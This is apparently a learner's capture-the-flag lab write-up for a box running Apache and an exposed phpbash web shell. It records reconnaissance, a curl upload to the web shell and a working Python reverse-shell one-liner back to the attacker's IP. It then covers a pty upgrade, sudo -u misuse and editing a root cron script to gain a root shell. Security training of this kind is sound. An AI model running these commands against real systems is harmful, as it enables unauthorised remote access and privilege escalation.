 port 80 is only thing open

Arrexel's Development Site -> http title
- This can be found from a github repo -> https://github.com/Arrexel/phpbash

no cgi-bin
apache 2.4.18 has a local priv esc -> linux/local/46676.php

looks like we can view directories
- images most recent upload date was 2017-12-04

Wierd Files:
- /php/sendMail.php
- /dev/phpbash.php

Looking at https://github.com/Arrexel/phpbash
- one of the issues is a xss

we see that that there is this line of code for file upload
`} else if (!empty($_FILES['file']['tmp_name']) && !empty($_POST['path'])) {`

curl -F 'path=/&file=@test.php' http://10.129.223.52/dev/phpbash.php

trying to send that didnt work, not sure if cause my stuff was wrong or what, but decided to read out the phpbash that was being used and saw
`<?php /* phpbash by Alexander Reid (Arrexel) */ if (ISSET($_POST['cmd'])) { echo shell_exec($_POST['cmd']." 2>&1"); die(); } ?>`

sudo tcpdump -i tun0 <-- good for testing ping backs
tried to wget a file, but couldnt write to that directory
always just go through a list of reverse shells, just cause one didnt work, doesnt mean another one couldnt

sent that through and got a reverse shell
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.146", 6000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- guessing this worked cause it spawned a new process

- upgraded to a tty shell by doing
`python -c 'import pty; pty.spawn("/bin/sh")'`

Just rememembered that there is a local priv esc vuln for apache that we had found earlier
- just need to get this file on the server
...spent all this time looking for how to upload php code...uploads had all permissions rearing to go...
I just need to make sure to look at everything, somehow skimmed past this????

Simple server served:
started running linpeas on it
trying to run php xploit

we see this in sudo -l
`(scriptmanager : scriptmanager) NOPASSWD: ALL`
which means we can execute sudo without a password and everything we write has scriptmanager access
To access the above we need to do
`sudo -u scriptmanager [cmd]`

my problem was that I was still executing sudo as www-data, i needed to use the -u option to execute it as scriptmanager, then it wouldnt ask me for a password

Seems uncommon for a user to do `sudo -l` <- could be hints at something

Something interesting:
```
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/scripts/test.txt
/home/scriptmanager/.gnupg/trustdb.gpg
/home/scriptmanager/.gnupg/pubring.gpg
/home/scriptmanager/.gnupg/gpg.conf
/var/log/auth.log
/var/log/syslog
```

after reading test.py in scripts, we can assume that a cron job executes test.py as root and thats why test.txt has root permissions
so working with this we can edit the file being produced
After modifying it a bit and using wget to get a new version, we wait some time and see that test.txt was changed!
So now going to write a bash script to esecute /bash/sh and modify permissions to allow for publix execution
had to play with the permissions in python a bit in local env to get it to work 0o0777 instead of 777
still looks like it uses the permissions of the user who executed it rather than the one who wrote the file -> look into this more

ended up just changing test.py to create a reverse shell back to me to get root exec
- will need to look into file permissions and how I could set a SUID file to execute the test.py as root

*Dont use wrtieups as much of a crutch, look over the notes you have taken
*Should prob look into things a bit more, try to understand them better when you google stuff

